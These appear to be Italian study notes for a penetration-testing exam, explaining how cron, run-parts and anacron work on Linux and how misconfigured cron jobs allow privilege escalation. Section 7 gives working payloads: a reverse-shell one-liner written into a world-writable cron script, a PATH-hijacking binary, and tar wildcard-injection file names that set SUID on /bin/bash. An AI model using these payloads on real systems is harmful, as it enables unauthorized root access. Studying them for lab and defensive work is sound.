

# Cron — Scheduling e Privilege Escalation

> [!info] Collegamenti [[HTB - Wall]] · [[Dynamic Linking]] · [[LinPEAS]] 

## 1. Cos'è cron

`cron` è il demone (`crond`) che gira in background su praticamente ogni sistema Unix/Linux. Ogni minuto si "risveglia" e controlla diverse fonti per sapere se c'è qualcosa da eseguire in quel momento. crond non esegue i comandi nel proprio processo: forka un nuovo processo per ogni job, con i permessi dell'utente associato a quel job.

## 2. Le fonti lette da crond

crond legge tre tipi di file, che sono concettualmente la stessa cosa ("quando eseguire cosa") ma con owner e formato leggermente diversi.

### 2.1 Crontab personali

- Path: `/var/spool/cron/<utente>` (RHEL/CentOS) o `/var/spool/cron/crontabs/<utente>` (Debian/Ubuntu)
- Creati/editati con `crontab -e` (mai a mano)
- 5 campi: `min hour dom mon dow comando` — **nessun** campo "user", perché il file appartiene già a quell'utente e crond lo esegue con i suoi permessi

### 2.2 /etc/crontab

- Gestito da root, di solito vuoto/minimale by default
- 6 campi: `min hour dom mon dow user comando` — il campo extra "user" permette a root di eseguire comandi come un utente qualsiasi

### 2.3 /etc/cron.d/*

- Stesso formato a 6 campi di `/etc/crontab`, ma file separati
- Usato dai package manager: invece di editare un file condiviso, ogni package deposita il proprio file (es. `/etc/cron.d/logrotate`)

> [!tip] Non è ridondanza I tre punti sopra non duplicano funzionalità — sono solo livelli di "chi può scrivere cosa". Stesso meccanismo (crond + formato a campi temporali), owner/scopo diversi.

## 3. cron.hourly / daily / weekly / monthly

Livello diverso: non sono entry crontab, sono **directory contenenti script eseguibili**. Vengono lanciate da `run-parts`, invocato a sua volta da una entry del livello 2.

Esempio reale (visto nel lab):

```
/etc/cron.d/0hourly:
01 * * * * root run-parts /etc/cron.hourly
```

`run-parts /etc/cron.hourly` esegue ogni file eseguibile trovato in quella directory, come root, ogni ora al minuto 01.

Perché questa indirezione? Per chi installa software è più comodo lasciare cadere uno script eseguibile ("verrà lanciato ogni ora") piuttosto che scrivere a mano una entry crontab formattata correttamente.

## 4. anacron

Problema che risolve: cron assume che la macchina sia sempre accesa. Se un job daily è schedulato alle 3:00 e il sistema è spento in quel momento, quel giorno il job salta — cron non se ne accorge e non recupera.

- `/etc/anacrontab`: definisce job daily/weekly/monthly con un campo "delay" (aspetta N minuti dopo il boot/check prima di eseguire, per non sovraccaricare il sistema)
- `/var/spool/anacron`: tiene traccia dell'ultima esecuzione di ogni job
- `/etc/cron.hourly/0anacron`: lo script-ponte, eseguito ogni ora da cron, che chiede ad anacron "è passato più di un giorno/settimana/mese da quando ho fatto X? Se sì, eseguilo ora"

## 5. Mappa completa



Fermiamoci pure — è importante avere il quadro chiaro prima di proseguire, altrimenti il lab diventa "esegui comandi a memoria" invece che capire cosa stai attaccando.

Il punto centrale è che questi non sono tre sistemi paralleli che fanno la stessa cosa — sono livelli diversi, e crond (il demone) li legge tutti, ma in formati diversi e per motivi diversi.

**Il nucleo: crontab personali, /etc/crontab, /etc/cron.d/** — questi tre sono in realtà la stessa identica cosa concettualmente: file letti da crond, con sintassi a campi temporali + comando. La differenza è solo _chi può scriverli_ e _con quali permessi viene eseguito il comando_. Una crontab personale (creata con `crontab -e`, salvata in `/var/spool/cron/<utente>`) ha 5 campi (min ora giorno mese giorno-settimana comando) — non serve il campo "user" perché il file stesso appartiene a quell'utente, e crond lo esegue con i suoi permessi, automaticamente. `/etc/crontab` invece ha un sesto campo, "user", perché è gestito da root e permette a root di dire "esegui questo comando, ma fallo girare come l'utente X". `/etc/cron.d/*` ha lo stesso formato a 6 campi di `/etc/crontab` — sono solo file separati invece di un unico file monolitico. Il motivo è pratico: quando un package (es. logrotate, certbot) si installa e ha bisogno di un cronjob, è molto più semplice per lui depositare un file in `/etc/cron.d/logrotate` che editare in modo atomico un file condiviso come `/etc/crontab`. Quindi la "ridondanza" tra questi tre è solo separazione di competenze, non duplicazione funzionale.

**Il secondo livello: /etc/cron.hourly, daily, weekly, monthly** — qui cambia completamente formato: non sono più entry crontab, sono _directory_ che contengono script eseguibili. Il trigger che le fa partire è una entry del livello precedente. Infatti hai visto tu stesso: `/etc/cron.d/0hourly` contiene una riga classica a 6 campi (`01 * * * * root run-parts /etc/cron.hourly`) — è root, ogni ora al minuto 01, che lancia `run-parts`, e `run-parts` semplicemente esegue ogni script eseguibile trovato in quella directory. Quindi `cron.hourly` non è un sistema indipendente: è _eseguito da_ una entry di cron.d. L'indirection esiste per lo stesso motivo di prima — è più comodo per chi installa software lasciare cadere uno script eseguibile in una cartella ("verrà lanciato ogni ora") piuttosto che scrivere una entry crontab formattata correttamente.

**anacron** risolve un problema diverso: cron assume che la macchina sia sempre accesa. Se un job giornaliero è alle 3:00 e il laptop è spento in quel momento, quel giorno il job semplicemente salta — punto, cron non se ne accorge. anacron tiene traccia in `/var/spool/anacron` dell'ultima esecuzione di ciascun job, e periodicamente controlla "è passato più di un giorno/settimana/mese da quando ho fatto X? Se sì, eseguilo ora, con un piccolo delay configurabile in `/etc/anacrontab`". Lo script `0anacron` che hai trovato in `/etc/cron.hourly/` è esattamente questo ponte: è lo script che cron lancia ogni ora per chiedere ad anacron "c'è qualcosa di daily/weekly/monthly in ritardo da recuperare?".

Quindi la mappa completa è: crontab personali + `/etc/crontab` + `/etc/cron.d/*` sono lo stesso meccanismo a livelli diversi di privilegio → da lì può partire `run-parts` su `cron.hourly/daily/...` (secondo livello, script invece di entry) → e dentro `cron.hourly` c'è `0anacron` che fa da ponte verso anacron (terzo livello, per gestire macchine non sempre accese).

Per il privesc questo si traduce in una sola domanda, ripetuta a ogni livello: _c'è qualcosa che root esegue periodicamente — entry crontab, riga in cron.d, script in cron.hourly, job anacron — su cui lowpriv ha un qualunque grado di controllo (file scrivibile, directory scrivibile, comando con path/wildcard manipolabile)?_ Il meccanismo di exploit (Method 1/2/3) è identico indipendentemente da quale dei livelli stai guardando — cambia solo dove vai a cercare.

## 6. Perché cron è un vettore di privilege escalation

Domanda chiave, valida a ogni livello della mappa sopra:

> [!info] La domanda da farsi sempre C'è qualcosa che **root** esegue periodicamente, su cui **io (utente non privilegiato)** ho un qualche grado di controllo?

"Controllo" può significare: file scrivibile, directory scrivibile (posso aggiungere file), PATH che il job usa è manipolabile, comando con wildcard espandibile.

## 7. I 3 metodi di exploit

### Method 1 — Script cron scrivibile

Se un job gira come root e lo script che esegue è scrivibile da te (world-writable o gruppo a cui appartieni):

```bash
ls -la /usr/local/bin/overwrite.sh   # -rwxrwxrwx root root → world-writable
echo 'bash -i >& /dev/tcp/127.0.0.1/8888 0>&1' > /usr/local/bin/overwrite.sh
```

Apri un listener (`nc -lvp 8888`) e aspetta il prossimo trigger del cron.

> [!warning] Trappola Se sovrascrivi lo script _mentre_ cron lo sta eseguendo, puoi ottenere una shell parziale/corrotta. Aspetta il minuto giusto, non scrivere a cavallo del trigger.

### Method 2 — PATH insicuro + comando con path relativo

Se l'entry cron (o lo script che lancia) chiama un binario con **path relativo** (es. `overwrite` invece di `/usr/local/bin/overwrite`) e il `PATH` usato dal job include una directory scrivibile da te **prima** di quella legittima:

```bash
# il PATH che conta è quello DEL JOB (definito in crontab/script), non il tuo
# se /home/user è prima di /usr/bin nel PATH del job:
echo -e '#!/bin/bash\nbash -i >& /dev/tcp/127.0.0.1/8888 0>&1' > /home/user/overwrite
chmod +x /home/user/overwrite
```

Quando root esegue il job, la shell risolve `overwrite` nella tua directory prima di quella reale.

### Method 3 — Wildcard injection (⭐ esame)

Tecnica da GTFOBins: comandi come `tar`, `chown`, `rsync` invocati con un wildcard (`*`) in uno script cron eseguito da root, su una directory dove tu puoi creare file.

Bash espande `*` **prima** di passarlo al comando — se nella directory esistono file con nomi che assomigliano a flag/opzioni, vengono interpretati come argomenti del comando, non come nomi di file.

Esempio classico — script root fa:

```bash
cd /backup && tar -czf backup.tar.gz *
```

Tu, in `/backup` (scrivibile), crei:

```bash
echo 'chmod u+s /bin/bash' > shell.sh
chmod +x shell.sh
touch -- '--checkpoint=1'
touch -- '--checkpoint-action=exec=sh shell.sh'
```

Quando root lancia `tar -czf backup.tar.gz *`, bash espande `*` in:

```
tar -czf backup.tar.gz --checkpoint=1 --checkpoint-action=exec=sh\ shell.sh backup.tar.gz shell.sh
```

`tar` interpreta i primi due come opzioni legittime → al primo checkpoint esegue `shell.sh` **come root**.

> [!warning] Trappola d'esame Funziona solo se: (1) il comando usa effettivamente un wildcard non quotato, (2) tu hai permesso di scrittura nella directory su cui il wildcard opera. Verifica sempre lo script con `cat`, non assumere.

## 8. Checklist di enumerazione

```bash
crontab -l                          # crontab personale
cat /etc/crontab                    # tabella di sistema
ls -la /etc/cron.d/                  # file per-package
cat /etc/cron.d/*                    # contenuto, cerca campo "user" = root
ls -la /etc/cron.hourly /etc/cron.daily /etc/cron.weekly /etc/cron.monthly
cat /etc/cron.*ly/*                  # cerca comandi con wildcard, path relativi
ls -ld /etc/cron.d /etc/cron.hourly    # permessi delle DIRECTORY, non solo dei file
cat /etc/anacrontab
```

> [!tip] pspy Per vedere i cronjob _in azione_ (anche quelli non immediatamente ovvi dai file) usa `pspy` — monitora i processi senza bisogno di privilegi root, utile per catturare comandi lanciati periodicamente.

## 9. Collegamento con LinPEAS

[[LinPEAS]] segnala in genere:

- file/script cron world-writable → rosso
- entry cron.d con comandi sospetti → evidenziate
- ma **non** rileva sempre il wildcard injection in modo esplicito — va verificato a mano leggendo il contenuto degli script

## 10. Domande di richiamo attivo

1. Perché `/etc/crontab` ha 6 campi e una crontab personale ne ha 5?
2. Cosa fa `run-parts` e da dove viene tipicamente invocato?
3. Qual è il problema che anacron risolve, e come lo risolve?
4. Nel Method 3, perché bash espande `*` PRIMA che `tar` lo veda — e perché questo è il cuore dell'exploit?
5. Quali 2 condizioni devono essere vere per il wildcard injection?
6. Perché bisogna controllare i permessi delle _directory_ (non solo dei file) in `/etc/cron.d` e `/etc/cron.hourly`?

## 11. Trappole d'esame

- Non confondere il campo "user" di `/etc/crontab`/`cron.d` (6° campo) con l'owner del file crontab personale (implicito, non scritto da nessuna parte)
- `run-parts` esegue solo file **eseguibili** (`+x`) — uno script non eseguibile in `cron.hourly` viene ignorato silenziosamente
- Wildcard injection: il payload va creato **prima** che lo script cron parta — se arrivi tardi, aspetti il prossimo ciclo
- "Rosso in LinPEAS" non garantisce che lo script sia eseguito a breve — controlla sempre orario/frequenza nell'entry cron corrispondente